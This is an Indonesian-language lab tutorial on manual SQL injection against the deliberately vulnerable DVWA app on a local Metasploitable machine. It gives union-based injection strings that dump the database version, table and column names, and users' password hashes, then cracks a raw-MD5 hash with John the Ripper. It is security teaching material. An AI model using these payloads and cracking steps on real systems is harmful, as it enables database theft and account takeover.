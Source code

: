 ### SQL Injection manual dan John the Ripper

* Apa itu SQL Injection?
  * SQL injection adalah teknik yang sering digunakan untuk menyerang aplikasi berbasis data.
  * Teknik ini dilakukan dengan menyisipkan sebagian statemen SQL ke dalam field dalam sebuat website untuk menjalankan perintah ke dalam database. SQL Injection adalah teknik yang memanfaatkan kelemahan keamanan dalam software aplikasi. 
* Apakah yang disebut dengan SQL Injection Harvesting?
  * SQL Injection Harvesting is where a malicious user supplies SQL statements to render sensitive data such as usernames, passwords, database tables, and more.
  * SQL Injection Harvesting adalah keadaan dimana pengguna memasukkan statement sql untuk mendapatkan data sensitif seperti username, password, tabel database, dan lainnya. 
* Lab Notes
  * Dalam lesson ini kita akan melakukan:
    1. Menyisipkan 'always true' sql statement ke dalam fiel sql injection user id dengan tingkat keamanan rendah.
    2. Mendapatkan username dan password dengan format raw-MD5 dari tabel users.
    3. Menggunakan John the Ripper untuk memecahkan password berformat raw-MD5.

| **Section 1: Login ke dalam DVWA** |
| :--- |


1. Buka browser

2. Login ke DVWA

   * Langkah**:**
     1. Buka firefox
     2. Masukkan ip metasploitable, contoh: [http://192.168.56.102/dvwa/login.php](http://192.168.56.102/dvwa/login.php).
     3. Login: admin
     4. Password: password
     5. Klik Login
   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson6/index.31.jpg)

| **Section 2: Tetapkan Tingkat Keamanan** |
| :--- |


1. Tetapkan tingkat keamanan DVWA

   * Langkah**:**  
     1. Klik bagian DVWA Security di menu bagian kiri.  
     2. Pilih "low"  
     3. Klik Submit

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson6/index.32.jpg)

| **Section 3: Lakukan SQL Injection** |
| :--- |


1. Menu SQL Injection

   * **Langkah:**
     1. Pilih "SQL Injection" dari menu bagian kiri.
   * ![](/assets/0.2. sql injection .PNG)![](/assets/0.1. sql injection .PNG)

2. Injection dasar

   * **Langkah:**
     1. Masukkan "1" ke dalam text box.
     2. Klik Submit.
     3. Akan terlihat informasi user dengan id 1.
   * ![](/assets/1. Manual injection.PNG)

3. Always True Scenario

   * **Langkah:**
     1. Masukkan text di bawah ke User ID Textbox.
        * `%' or '0'='0`
     2. Klik Submit
   * ![](/assets/1.1 Always true condition.PNG)

4. Menampilkan versi database

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, version() #`
     2. Klik Submit
   * ![](/assets/1.2 database version.PNG)

5. Menampilkan user dari database

   * Langkah**:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, user() #`

   * ![](/assets/1.3 Display Database User.PNG)

6. Menampilkan nama dari database

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, database() #`
   * ![](/assets/1.4 display database name.PNG)

7. Menampilkan semua tabel dalam information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, table_name from information_schema.tables #`
     2. Klik Submit
   * ![](/assets/1.5 Display all the user tables in information_schema.PNG)

8. Menampilkan semua tabel user di dalam information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`
     2. Klik Submit
   * ![](/assets/1.7 Display all the columns fields in the information_schema user table.PNG)

9. Menampilkan semua field kolom dalam tabel user di information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`
     2. Klik Submit
   * ![](/assets/1.7 Display all the columns fields in the information_schema user table.PNG)

10. Menampilkan semua kolom field pada tabel user di kolom information\_schema.

    * **Langkah:**
      1. Masukkan text di bawah ke dalam ID Textbox.
         * `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
      2. Klik Submit
    * ![](/assets/1.8 Display all the columns field contents in the information_schema user table.PNG)

| **Section 4: Membuat file hash password** |
| :--- |


1. Membuat file hash password 

   * **Langkah:**

     1. Highlight admin dan hash password

     2. Klik kanan

     3. Copy

   * ![](/assets/2.1 Create Password Hash File.PNG)

2. Simpan dalam file

   * **Langkah:**

     1. Simpan dalam file dengan format user:password\_hash  
            Contoh:  
                admin:5f4dcc3b5aa765d61d8327deb882cf99

     2. Simpan file

   * ![](/assets/2.2 save password in text.PNG)

| **Section 5: Menggunakan John the Ripper** |
| :--- |


1. Proof of Lab
   * **Langkah:**
     1. Buka terminal baru
     2. `cd /pentest/passwords/john`
     3. `./john --format=raw-MD5 dvwa_password.txt`
     4. Password akan di crack
     5. Untuk menampilkan password yang sudah di crack lakukan perintah seperti di bawah:
        ```
        john -show -format=raw-MD5 dvwa_password.txt
        ```
   * ![](/assets/3. Hasil Akhir.PNG)



